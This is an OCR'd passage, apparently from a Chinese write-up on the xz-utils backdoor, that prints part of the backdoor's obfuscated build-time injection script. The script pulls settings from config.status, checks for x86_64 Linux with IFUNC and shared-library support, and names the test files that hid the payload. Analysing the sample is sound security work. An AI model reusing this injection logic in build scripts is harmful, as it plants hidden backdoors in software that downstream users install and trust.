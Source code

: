 ![image-20240406212656571](resource/xz库恶意后门植入事件.assets/image-20240406212656571.png)

```sh
P=&#34;-fPIC -DPIC -fno-lto -ffunction-sections -fdata-sections&#34;
C=&#34;pic_flag=\&#34; $P\&#34;&#34;
O=&#34;^pic_flag=\&#34; -fPIC -DPIC\&#34;$&#34;
R=&#34;is_arch_extension_supported&#34;
x=&#34;__get_cpuid(&#34;
p=&#34;good-large_compressed.lzma&#34;
U=&#34;bad-3-corrupt_lzma2.xz&#34;
eval $zrKcVq
if test -f config.status; then
eval $zrKcSS
eval `grep ^LD=\&#39;\/ config.status`
eval `grep ^CC=\&#39; config.status`
eval `grep ^GCC=\&#39; config.status`
eval `grep ^srcdir=\&#39; config.status`
eval `grep ^build=\&#39;x86_64 config.status`
eval `grep ^enable_shared=\&#39;yes\&#39; config.status`
eval `grep ^enable_static=\&#39; config.status`
eval `grep ^gl_path_map=\&#39; config.status`
eval $zrKccj
if ! grep -qs &#39;\[&#34;HAVE_FUNC_ATTRIBUTE_IFUNC&#34;\]=&#34; 1&#34;&#39; config.status &gt; /dev/null 2&gt;&amp;1;then
exit 0
fi
if ! grep -qs &#39;define HAVE_FUNC_ATTRIBUTE_IFUNC 1&#39; config.h &gt; /dev/null 2&gt;&amp;1;then
exit 0
fi
if test &#34;x$enable_shared&#34; != &#34;xyes&#34;;then
exit 0
fi
if ! (echo &#34;$build&#34; | grep -Eq &#34;^x86_64&#34; &gt; /dev/null 2&gt;&amp;1) &amp;&amp; (echo &#34;$build&#34; | grep -Eq &#34;linux-gnu$&#34; &gt; /dev/null 2&gt;&amp;1);then
exit 0
fi
if ! grep -qs &#34;$R()&#34; $srcdir/src/liblzma/check/crc64_fast.c &gt; /dev/null 2&gt;&amp;1; then
exit 0
fi
```
